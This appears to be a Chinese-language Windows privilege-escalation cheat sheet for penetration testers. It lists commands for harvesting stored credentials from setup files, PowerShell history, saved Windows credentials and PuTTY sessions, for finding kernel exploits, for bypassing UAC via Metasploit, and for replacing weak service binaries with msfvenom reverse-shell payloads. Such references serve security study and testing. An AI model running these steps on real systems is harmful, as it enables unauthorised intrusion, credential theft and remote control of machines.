 #### 提权方法 (Escalation Techniques)

1.  **查找存储的凭据 (Finding Stored Credentials)**
    *   **原理**: 最简单的方法之一，查找系统或应用中以明文或易于解密形式存储的密码。
    *   **常见位置**:
        *   **无人值守安装文件**: 查找 `Unattend.xml`, `sysprep.xml`, `sysprep.inf` 等文件中的 `<Credentials>` 标签。常见路径：`C:\Unattend.xml`, `C:\Windows\Panther\Unattend.xml`, `C:\Windows\Panther\Unattend\Unattend.xml`, `C:\Windows\system32\sysprep.inf`, `C:\Windows\system32\sysprep\sysprep.xml`。
        *   **PowerShell 历史记录**: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` (在 CMD 中) 或 `Get-Content $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` (在 PowerShell 中)。
        *   **保存的 Windows 凭据**: `cmdkey /list` 列出。如果找到可用凭据，可尝试使用 `runas /savecred /user:<username> cmd.exe` 以该用户身份运行命令（首次会提示输入密码，如果之前保存过则不提示）。
        *   **IIS 配置文件 (`web.config`)**: 查找数据库连接字符串或其他敏感配置。常见路径：`C:\inetpub\wwwroot\web.config`, `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config` (路径可能变化)。使用 `type <path> | findstr /i "connectionString"` 或 `findstr /i "password"`。
        *   **应用程序配置文件**: 各种软件可能将密码存储在配置文件或注册表中。
        *   **脚本文件**: `.bat`, `.ps1` 等脚本可能硬编码了密码。
        *   **软件保存的凭据 (示例: PuTTY)**: 许多客户端软件 (SSH, FTP, VNC, 浏览器) 会保存连接信息。PuTTY 会在注册表中存储会话信息，包括代理密码（如果配置了）。使用 `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "ProxyPassword" /s` 搜索。
        *   **LaZagne**: 使用 LaZagne 工具可以自动搜索和提取多种应用程序存储的凭据（见“提权后操作”部分，但也可作为初始提权步骤）。

2.  **利用系统内核溢出漏洞 (Kernel Exploit)**
    *   **原理**: 利用操作系统内核未修复的漏洞获取 SYSTEM 权限。
    *   **步骤**:
        1.  **信息收集**: `systeminfo` 获取 OS 版本和补丁列表 (`HotFixID`)。
        2.  **漏洞识别**:
            *   **自动化工具 (推荐)**:
                *   **Windows Exploit Suggester - Next Generation (wesng)**: (在攻击机运行) `wes.py --update` 更新数据库 -> `python wes.py systeminfo.txt` (需要将目标机的 `systeminfo` 输出保存到 `systeminfo.txt` 并传回攻击机)。
                *   **Sherlock (PowerShell)**: (在目标机运行) `Import-Module .\Sherlock.ps1; Find-AllVulns`。
                *   **Metasploit**: `use post/multi/recon/local_exploit_suggester`, `set SESSION <id>`, `run`。
            *   **手动比对**: 对比补丁列表和已知漏洞 (如 MS10-015, MS11-080, MS14-058, MS15-051, MS16-032, CVE-2018-8120 等)。
        3.  **获取 Exploit**: 从 GitHub (SecWiki/windows-kernel-exploits, etc.) 下载预编译或源码。
        4.  **上传与执行**: 上传到可写目录并运行。
    *   **风险**: 可能导致系统蓝屏 (BSOD)。

3.  **绕过用户账户控制 (Bypass UAC)**
    *   **原理**: 利用 Windows 机制或漏洞，在不触发 UAC 弹窗的情况下以高权限 (High Integrity) 执行代码。
    *   **适用场景**: 当前用户已是管理员组成员，但进程在中等完整性级别运行。
    *   **方法**: 利用可信程序 (如 `eventvwr.exe`, `fodhelper.exe`) 自动提权特性加载恶意代码。
    *   **工具/模块**: Metasploit (`exploit/windows/local/bypassuac*`), UACMe。
    *   **MSF 示例 (ask)**: 诱导用户点击确认框。
        ```bash
        use exploit/windows/local/ask
        set SESSION <id>; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <ip>; set LPORT <port>
        exploit
        ```

4.  **利用系统服务提权 (Service Escalation)**
    *   **简介**: Windows 服务由服务控制管理器 (SCM) 管理，可在特定用户账户（常为 SYSTEM, Local Service, Network Service）下运行。服务的配置存储在注册表 `HKLM\SYSTEM\CurrentControlSet\Services\` 下。利用点在于对服务配置或其关联文件的权限不当。
    *   **不安全的服务可执行文件权限 (Insecure Service Executable Permissions)**
        *   **原理**: 如果 SYSTEM 或其他高权限服务所运行的 `.exe` 文件允许低权限用户修改或替换，则可以将该文件替换为 Payload。
        *   **检测**:
            1.  `sc qc <ServiceName>`: 获取 `BINARY_PATH_NAME`。
            2.  `icacls "<path_to_exe>"`: 检查当前用户或所属组 (如 `BUILTIN\Users`, `Everyone`) 是否有写入/修改权限 (如 `(M)`, `(F)`, `(W)`)。
        *   **利用**:
            1.  备份原文件: `move <path_to_exe> <path_to_exe>.bak`
            2.  生成 Payload (需为服务格式): `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe-service -o payload.exe`
            3.  上传并替换: `move payload.exe "<path_to_exe>"`
            4.  确保权限 (有时需要): `icacls "<path_to_exe>" /grant Everyone:F`
            5.  重启服务: `net stop <ServiceName>` (可能失败，继续执行 start) -> `net start <ServiceName>`。